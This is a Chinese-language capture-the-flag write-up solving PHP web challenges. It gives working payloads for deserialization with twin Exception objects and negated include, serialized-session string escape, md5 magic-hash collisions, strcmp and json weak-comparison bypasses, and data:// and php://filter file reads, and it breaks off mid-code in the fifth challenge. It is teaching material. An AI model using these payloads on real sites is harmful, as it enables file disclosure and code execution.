web1
<?php
highlight_file(__FILE__);
error_reporting(0);
class SYCLOVER {
public $syc;
public $lover;
public function __wakeup(){
if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
eval($this->syc);
} else {
die("Try Hard !!");
}
}
}
}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
if (isset($_GET['great'])){
unserialize($_GET['great']);
} else {
die('error');
}
}else {
echo 'hacker!!!';
}
?> hacker!!!反序列化前有个简单的特性，我们输入778反转后是877也就是0x36d的十进制，由于弱比较的类型转化，就能绕过。
接着看魔术方法，这里要求其变量不能相等，但经过md5加密与sha1加密之后要分别相等，相信大多数人觉得数组绕过就行了，但当你走到eval发现没办法了，这时候就涨知识了，用到了php的原生类：Exception类
在此类中：
- `Exception::__construct` — 异常构造函数
- `Exception::getMessage` — 获取异常消息内容
- `Exception::getPrevious` — 返回异常链中的前一个异常
- `Exception::getCode` — 获取异常代码
- `Exception::getFile` — 创建异常时的程序文件名称
- `Exception::getLine` — 获取创建的异常所在文件中的行号
- `Exception::getTrace` — 获取异常追踪信息
- `Exception::getTraceAsString` — 获取字符串类型的异常追踪信息
- `Exception::__toString` — 将异常对象转换为字符串
- `Exception::__clone` — 异常克隆可以看到自带tostring方法，这个方法用于将异常或错误对象转换为字符串。
<?php
$a = new Exception("payload",1);$b = new Exception("payload",2);
echo $a;
echo "<br>";
echo $b;
?>
//输出
exception 'Exception' with message 'payload' in D:\labwork\phpstudy_pro\WWW\test\test.php:2 Stack trace: #0 {main}
exception 'Exception' with message 'payload' in D:\labwork\phpstudy_pro\WWW\test\test.php:2 Stack trace: #0 {main}当然Eorror类与其一样，不过前者只用于php7，后者5和7均可，我们可以知道这道题版本为7，因此只能用该类
此时在注意preg_match函数多了一个math参数，这里将会把匹配到的内容分为数组穿进去，不过这里利用的点不是他
由于题目用preg_match过滤了小括号无法调用函数，所以我们尝试直接 include “/flag” 将flag包含进来即可；由于过滤了引号，我们直接用url取反绕过
URL编码取反绕过
适用PHP版本：无限制
当PHP>=7时，可以直接利用取反构造payload
PS C:\Users\Administrator> php -r "var_dump(urlencode(~'phpinfo'));"
Command line code:1:
string(21) "%8F%97%8F%96%91%99%90"
//实际上
(~%8F%97%8F%96%91%99%90)();
#phpinfo();则poc如下
//利用链如下
<?php
class SYCLOVER {
public $syc;
public $lover;
public function __wakeup(){
}
}
$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>"; //~urldecode=/flag
$a=new Exception($str,1);$b=new Exception($str,2);
$c = new SYCLOVER();
$c->syc = $a;
$c->lover = $b;
echo(urlencode(serialize($c)));
?>
//这里解释以下，为什么要闭合掉"?>"，因为前面可能会有一些报错的信息，所以可以先闭合掉前面的东西，然后再来包含后面的是取反，因为在链里面所以需要用到解码，不用编码绕不过去正则，里面是/flag因为刷题多了都在根目录下面，不在的话正能一步步尝试。
拿到flag
web2
点进去看到源码，我一看审计有难度。。。
<?php
require('flag.php');
$function = @$_GET['f']; //get传参
function filter($img){ //对变量进行检验,过滤特定关键词
$filter_arr = array('jpg','flag','php5','php4','fl1g');
$filter = '/'.implode('|',$filter_arr).'/i';
return preg_replace($filter,'',$img);
}
if($_SESSION){ //若session不存在,则销毁session
unset($_SESSION);
}
$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;
extract($_POST); //变量覆盖,漏洞利用点
if(!$function){
echo '<a href="index.php?f=highlight_file">source_code</a>';
}
if(!$_GET['img_path']){//这里又sha1加密,大概率不用了考虑了,这里利用不了
$_SESSION['img'] = base64_encode('guest_img.png');
}else{
$_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}
$serialize_info = filter(serialize($_SESSION));//对序列化的session变量过滤在赋值
if($function == 'highlight_file'){
highlight_file('index.php');
}else if($function == 'phpinfo'){ //这里没啥用
eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){//反序列化切入点
$userinfo = unserialize($serialize_info);
echo file_get_contents(base64_decode(base64_decode($userinfo['img'])));
} 首先就是给f传参show_image以便进行反序列化,接着我们一步步测试一下
方法一：反序列化字符串逃逸
<?php
highlight_file(__FILE__);
function filter($img){ //对变量进行检验,过滤特定关键词
$filter_arr = array('jpg','flag','php5','php4','fl1g');
$filter = '/'.implode('|',$filter_arr).'/i';
return preg_replace($filter,'',$img);
}
$_SESSION["user"] = 'guest';
$_SESSION['function'] = 'a';
$_SESSION['img'] = 'Wm14aFp5NXdhSEE9';//flag.php base64编码两次
//extract($_POST); //变量覆盖,漏洞利用点
echo '<br>';
var_dump(serialize($_SESSION));
?>
结合filter函数的过滤，这里可以想到反序列化字符串逃逸，又因为代码中说，如果get参数img_path不存在，则会直接给img变量赋值，那我们想绕过只能靠逃逸。可以先构造如下：
<?php
highlight_file(__FILE__);
function filter($img){ //对变量进行检验,过滤特定关键词
$filter_arr = array('jpg','flag','php5','php4','fl1g');
$filter = '/'.implode('|',$filter_arr).'/i';
return preg_replace($filter,'',$img);
}
$_SESSION["user"] = 'guest';
$_SESSION['function'] = 'a";s:3:"img";s:16:"Wm14aFp5NXdhSEE9";}';
$_SESSION['img'] = 'Wm14aFp5NXdhSEE9';//flag.php base64编码两次
//extract($_POST); //变量覆盖,漏洞利用点
echo '<br>';
var_dump(serialize($_SESSION));
?>
string(124) "a:3:{s:4:"user";s:5:"guest";s:8:"function";s:38:"a";s:3:"img";s:16:"Wm14aFp5NXdhSEE9";}";s:3:"img";s:16:"Wm14aFp5NXdhSEE9";}"
//在这里我们就要利用function变量来构建img变量，于是我们要在user中添加flag或者其他关键词，以便其后被过滤为空的时候，可以吞进一部分function的内容。
//再想一下，要吞到哪里，那很明显是"#";s:8:"function";s:38:"a#"，即#之间的内容，这样后面的img才会被当做新的session变量，那么我们看一下这一段字符串的数量：24，那我们可以给user赋值为6个flag即可，
poc：
$_SESSION["user"] = 'flagflagflagflagflagflag';
$_SESSION['function'] = 'a";s:3:"img";s:16:"Wm14aFp5NXdhSEE9";}';
$_SESSION['img'] = 'Wm14aFp5NXdhSEE9';//flag.php base64编码两次string(144) "a:3:{s:4:"user";s:24:"flagflagflagflagflagflag";s:8:"function";s:38:"a";s:3:"img";s:16:"Wm14aFp5NXdhSEE9";}";s:3:"img";s:16:"Wm14aFp5NXdhSEE9";}"
//过滤后
string(120) "a:3:{s:4:"user";s:24:"";s:8:"function";s:38:"a";s:3:"img";s:16:"Wm14aFp5NXdhSEE9";}";s:3:"img";s:16:"Wm14aFp5NXdhSEE9";}"
//可以发现s:24:"后面要吞进去24个字符，直到"a这里，然后后面的双引号闭合字符串，分号闭合该变量，于是
s:3:"img";s:16:"Wm14aFp5NXdhSEE9";
//就会单独当做img变量，poc如下：
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:16:"Wm14aFp5NXdhSEE9";s:2:"dd";s:1:"a";} //这里由于前面是3个属性,所以要加一个.
继续编码访问即可
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:16:"Wm14aFlXRmhZV0Zu";s:2:"dd";s:1:"a";} 
拿到flag，这里说明一下为何传参为_SESSION而不是$_SSEION，这是因为代码中的extract函数，会将传入的post内容进行变量覆盖，而_SESSION这里要当做变量名，故此在后续中会被当做键值然后在作为变量名，也就是自动添加$。
方法二：变量覆盖
这个其实跟方法一差不多，只不过我认为有点烧脑，但也更加简便
我们已经知道我们要传的是：
_SESSION[img]=;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}但由于有一个自动给img变量赋值的语句： $_SESSION['img'] = base64_encode('guest_img.png');
因此我们需要利用filter函数，假如我们传入：
_SESSION[imgphp]=;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}那么php被过滤，但此变量依旧存在也就是：_SESSION[img]=;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
不会和环境自带的img变量冲突，输入如下
"a:1:{s:7:"img";s:36:";s:3:"img";s:20:"Wm14aFp5NXdhSEE9";}";}"
//由此我们又想到字符串逃逸，我们想法读到s:36:即可，一共10个，那么构造如下
"a:1:{s:10:"img";s:36:";s:3:"img";s:20:"Wm14aFp5NXdhSEE9";}";}"//分号闭合结尾，而环境自带的img变量便读不进去而没用了
//poc；
$_SESSION[imgflag]=;s:3:"123";s:3:"img";s:16:"$_SESSION[imgphpflag]=;s:3:"123";s:3:"img";s:16:"Wm14aFp5NXdhSEE9";}";} //但要注意有三个元素,因此这里还要在添加一个,但要添加在前面
//输出
"a:1:{s:7:"img";s:50:";s:3:"123";s:3:"img";s:16:"Wm14aFp5NXdhSEE9";}";}" //为了读取到:我们要再添加三个字符,让s:7变成s:10,
//最终payload
$_SESSION[imgjpgflag]=;s:3:"123";s:3:"img";s:16:"Wm14aFp5NXdhSEE9";}文章参考：
web3

没信息，点击开始看看

看源代码

base64解码看看

那就访问一下110.php，有点复杂的代码审计，不慌
<?php
include 'fl0g.php';
highlight_file(__FILE__);
if(isset($_GET['mo'])&&isset($_GET['fish']))
{
$mo=$_GET['mo'];
$fish=$_GET['fish'];
$logined=false;
$keys=true;
if (!ctype_alpha($mo)){$keys=false;}
if (!is_numeric($fish) ){$keys=false;}
if (md5($mo) == md5($fish))
{
echo"Let's start fishing !";
$b = $_GET['b'];
{
if('f1a9' === substr(md5($b),-4,4))
{
$password="doyoulikemoyu?";
if(isset($_POST['password']))
{
if(strcmp($_POST['password'],$password) == 0)
{
if (isset($_POST['message'])) {
$message = json_decode($_POST['message']);
$key ="*********";
if($message->key == $key)
{
$logined=true;
}
}
}
else
{
echo"That's a little bit !";
}
}
else
{
echo"you don't like mo yu ???";
}
}
else
{
die("You are not far from success !");
}
}
}
else
{
echo"good see you next !";
}
}
else
{
echo"Think again !";
}
if($logined&&$keys)
{
echo 'Congratulations on your successful fishing !';
highlight_file('fl0g.php');
die('By Wang');
}
?> Think again !绕过一：

这里要求输入的内容为字符串

这里则是检测是否为数字，接着配合md5弱比较，但这里不能用数组，因为前面的if会影响变量的布尔值。因此只需要其md5值是以0e开头即可
只要是以0e开头，后面为数字的字符串和字符串0比较值都是相等的，因为不管0不论和多少相乘都是0。一些例子：
1.QNKCDZO
0e830400451993494058024219903391
2.s878926199a
0e545993274517709034328855841020
3.s155964671a
0e342768416822451524974117254469
4.s214587387a
0e848240448830537924465865611904
5.s214587387a
0e848240448830537924465865611904
6.s878926199a
0e545993274517709034328855841020
7.s1091221200a
0e940624217856561557816327384675
8.s1885207154a
0e509367213418206700842008763514
9.240610708
0e462097431906509019562988736854于是这里传参为：?mo=QNKCDZO&fish=240610708
绕过二:

第一处要求传入的参数经过md5加密后的后四位与指定的字符串相同，无法，只得上脚本。
import hashlib
for i in range(100000):
m = hashlib.md5()
m.update(str(i).encode())
h = m.hexdigest()
if h[-4:] == "f1a9":
print(i)
break
成功！
绕过三：
$password="doyoulikemoyu?";
if(isset($_POST['password']))
{
if(strcmp($_POST['password'],$password) == 0)这里我不理解这个password的设定，感觉有问题，不过考察点可以知道就是绕过strcmp，考虑其特性
strcmp是比较两个字符串，如果两者相等 返回0
题目要求strcmp判断的接受的值和$password必需相等，strcmp传入的期望类型是字符串类型，
那我们传入 password[]=xxx 可以绕过 这是因为函数接受到了不符合的类型，将发生错误，返回null，因此与0比较会判断相等$message = json_decode($_POST['message']);
$key ="*********";
if($message->key == $key)
{
$logined=true;
}绕过四：
这里的key变量就正常了，显然考察的有时json解码

输入一个json类型的字符串，json_decode函数解密成一个数组，判断数组中key的值是否等于 $key的值，但是$key的值我们不知道，但是可以利用0=="admin"这种形式绕过
因为说到底这就是个弱比较类型，0与字符串比较都是返回true故payload如下
get：?mo=QNKCDZO&fish=240610708&b=12400
post：password[]=1&message={"key":0}
拿到flag
web4
开始审计
<?php
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="flag is here")){
echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
if(preg_match("/flag/",$file)){
echo "Not now!";
exit();
}else{
include($file); //here.php
$password = unserialize($password);
echo $password;
}
}
else{
highlight_file(__FILE__);
}
?> 这里传入text参数，并且其中的内容要完全等于"flag is here"，这时候就想到input或者data伪协议
使用php://input伪协议绕过
将要GET的参数?xxx=php://input
用post方法传入想要file_get_contents()函数返回的值
原因：php://input可以访问请求的原始数据的只读流，将post请求的数据当作php代码执行，当传入的参数作为文件名打开时，可以将参数设为php://input,同时post想设置的文件内容，php执行时会将post内容当作文件内容，从而导致任意代码执行。
用data://伪协议绕过
将url改为：?xxx=data://text/plain;base64,想要file_get_contents()函数返回的值的base64编码
或者将url改为：?xxx=data:text/plain,(url编码的内容)我们有看到here.php文件包含，在这之前我们需要先使用filter协议读取里面的源码。
payload如下：?text=data://text/plain;base64,ZmxhZyBpcyBoZXJl&file=&file=php://filter/convert.base64-encode/resource=here.php
<?php
class Flag{ //flag.php
public $file;
public function __tostring(){
if(isset($this->file)){
echo file_get_contents($this->file);
echo "<br>";
return ("OMO SO CLOSE !///COME ON");
}
}
}
?>
//poc如下：
<?php
class Flag{ //flag.php
public $file;
public function __tostring(){
}
$poc=new Flag();
$poc->file="flag.php";
echo serialize($poc);
?>
//这里序列化后的字符串被赋值为password，然后再页面有echo $password的语句，故此调用tostring方法，成功读到flagpayload如下：?text=data://text/plain;base64,ZmxhZyBpcyBoZXJl&file=&file=here.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

web5
<?php
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {//判断是否存在xff头
$_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}//若存在，则将客户端 IP 地址设置为 HTTP_X_FORWARDED_FOR 的值
if(!isset($_GET['host'])) {
highlight_file(__FILE__);
} else {
$host = $_GET['host'];
$host = escapeshellarg($host);//把字符串转码为可以在 shell 命令里使用的参数
$host = escapeshellcmd($host);// shell 元字符转义
